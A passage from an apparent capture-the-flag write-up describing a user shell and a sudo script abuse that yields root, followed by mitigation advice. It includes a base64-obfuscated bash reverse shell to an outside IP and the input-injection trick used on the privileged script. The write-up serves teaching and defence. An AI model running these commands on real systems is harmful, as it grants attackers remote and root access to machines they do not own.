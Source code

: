 
> `;` is used in Unix systems to separate two commands
{: .prompt-warning }

Now we got a shell as guly:

![image.png](image%2010.png)

## Privilege Escalation

Checking `sudo -l` we can see we can run the script as root and without password:

![image.png](image%2011.png)

```bash
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
```

```bash
&YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNy80NDQ1IDA+JjE | base64 -d | bash
```

I think we can try command injection here again, but `|` is not allowed, so maybe spawning a shell may work,

I used `/bin/bash` and it spawned a root shell.

![image.png](image%2012.png)

## Mitigation

- Apply strict **file upload validation**, including MIME type checks, extension whitelisting, and content inspection.
- Sanitize all **user-controlled inputs** in scripts, especially those run via cron or with elevated privileges.
- Regularly audit **cron jobs** for security and ensure they don’t operate on user-writeable paths.
- Harden **sudo configurations** by avoiding the use of scripts that call other commands or files without proper validation.
- Implement **logging and alerting** around file uploads, sudo executions, and cron activity for early detection of abuse.
